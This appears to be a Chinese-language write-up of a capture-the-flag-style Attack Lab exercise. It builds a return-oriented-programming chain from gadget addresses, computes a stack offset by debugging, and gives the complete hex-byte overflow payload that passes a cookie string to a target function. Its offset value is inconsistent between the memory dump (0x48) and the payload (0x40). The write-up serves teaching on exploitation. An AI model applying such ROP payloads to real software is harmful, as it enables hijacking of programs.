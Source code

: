 所以现在要的目标为:
```c
mov %rsp,%rdi // 找到了
mov <偏移量>,%rsi
call 401adb <add_xy>
mov %rax,%rdi  // 找到了
<cooki字符串>
```

先找出可能有用的汇编代码:
```c
401b3a:48 89 e0 c3 mov %rsp,%rax ,ret
401aaf:48 89 c7 90 movq %rax,%rdi,ret
401aa3:58 c3 pop %rax , ret
401b51:92 c3 XCHG   %edx,%eax
401bb6:89 d6 c3 movl %edx,%esi
401aaf:48 89 c7 90 movq %rax,%rdi,ret
```
组合一下
```c
401b3a:48 89 e0 c3 mov %rsp,%rax ,ret
401aaf:48 89 c7 90 movq %rax,%rdi,ret
401aa3:58 c3 pop %rax , ret
<偏移量>
401b51:92 c3 XCHG   %edx,%eax
401bb6:89 d6 c3 movl %edx,%esi
call 401adb <add_xy>
401aaf:48 89 c7 90 movq %rax,%rdi,ret
```
动态调试得到<偏移量>为:0x7ffffff931a0 - 0x7ffffff93160 = 0x40
```c                                                                                                                                  
0x7ffffff93160: 0xaf    0x1a    0x40    0x00    0x00    0x00    0x00    0x00
0x7ffffff93168: 0xa3    0x1a    0x40    0x00    0x00    0x00    0x00    0x00
0x7ffffff93170: 0x48    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7ffffff93178: 0x51    0x1b    0x40    0x00    0x00    0x00    0x00    0x00
0x7ffffff93180: 0xb6    0x1b    0x40    0x00    0x00    0x00    0x00    0x00
0x7ffffff93188: 0xdb    0x1a    0x40    0x00    0x00    0x00    0x00    0x00
0x7ffffff93190: 0xaf    0x1a    0x40    0x00    0x00    0x00    0x00    0x00
0x7ffffff93198: 0xfd    0x19    0x40    0x00    0x00    0x00    0x00    0x00
0x7ffffff931a0: 0x37    0x64    0x37    0x35    0x31    0x30    0x66    0x30
```

所以答案就是
```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
3a 1b 40 00 00 00 00 00
af 1a 40 00 00 00 00 00
a3 1a 40 00 00 00 00 00
40 00 00 00 00 00 00 00
51 1b 40 00 00 00 00 00
b6 1b 40 00 00 00 00 00
db 1a 40 00 00 00 00 00
af 1a 40 00 00 00 00 00
fd 19 40 00 00 00 00 00
37 64 37 35 31 30 66 30
```
